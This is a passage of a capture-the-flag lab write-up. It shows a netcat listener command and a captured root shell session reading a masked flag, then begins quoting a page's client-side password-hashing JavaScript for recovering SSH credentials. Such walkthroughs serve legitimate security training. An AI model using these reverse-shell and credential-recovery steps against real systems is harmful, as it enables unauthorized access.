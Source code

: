 Execute listener:

```
nc -nvlp 7345
```

and run the code from python web console.

We got a shell:

{% code overflow="wrap" %}
```bash
listening on [any] 7345 ...
connect to [10.8.X.X] from (UNKNOWN) [10.10.X.X] 34130
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
app
flag1.txt
# cat flag1.txt
THM{XXXXXXXXXXXXXXXXXXXX}
#
```
{% endcode %}

### Flag-2

In addition to Node.js service there is also SSH. The only information about credentials we have comes from **admin.html** page (username: Connor, hashed password, functions generating password's hash).

{% code overflow="wrap" lineNumbers="true" %}
```javascript
<script>
      // I suck at server side code, luckily I know how to make things secure without it - Connor

      function string_to_int_array(str){
        const intArr = [];

        for(let i=0;i<str.length;i++){
          const charcode = str.charCodeAt(i);

          const partA = Math.floor(charcode / 26);
          const partB = charcode % 26;

          intArr.push(partA);
          intArr.push(partB);
        }

        return intArr;
      }

      function int_array_to_text(int_array){
        let txt = '';

        for(let i=0;i<int_array.length;i++){
          txt += String.fromCharCode(97 + int_array[i]);
        }

        return txt;
      }

      document.forms[0].onsubmit = function (e){
          e.preventDefault();

          if(document.getElementById('username').value !== 'connor'){
            document.getElementById('fail').style.display = '';
```
